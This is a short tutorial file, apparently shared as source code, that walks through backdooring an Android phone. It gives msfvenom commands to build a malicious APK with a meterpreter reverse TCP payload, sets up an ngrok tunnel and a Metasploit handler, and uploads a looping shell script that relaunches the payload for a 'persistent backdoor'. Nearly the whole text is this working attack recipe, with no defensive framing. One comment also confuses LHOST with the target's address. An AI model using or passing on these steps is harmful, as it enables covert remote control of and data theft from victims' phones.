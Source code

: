 ﻿##### #############################   BY DEUS EX MACHINA    ###############################################################
##### register and set up ngrok from the instructions on the site
##### go to the direcory in which ngrok is  in the type"
./ngrok tcp $port
##### where $port is the port you want to open for using msfvenom on your pc


##### in your terminal, msfvenom terminal or metasploit terminal, type

msfvenom -p android/meterpreter/reverse_tcp LHOST=$ipaddress LPORT=$port R>payloadname.apk
##### where $ipaddress is the ip address of the target device and $lport is the port you opened on your device.
##### now go ahead to type the following

msfconsole -q
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT $port
run
##### now you can go ahead to install the exploit on the device and open it and you will see a metapreter session in your terminal where you can run your commands
#next we will run a script to keep our exploit running


##### create shell script the following shell script:
#!/bin/sh
while :
do am start --user 0 -a android.intent.action.MAIN -n com.metasploit.stage/.MAinActivity
sleep 10
done

##### save the script on your machine and now in your meterpreter session type these

shell
cd /sdcard
upload ~/path
##### where ~/path is the location of the shell script you have created on your machine
##### no we are done uploading the script to the target device, we need to run it by this command

nohup sh autostart.sh
##### our script is now running. we can now exit with:
CTRL + C
Y
##### now we have a persistent backdoor in the system
##### To do
- offline operation on phone and information uploaded from target on connect

########################################      KEEP IT AS RECEIVED      ##################################################


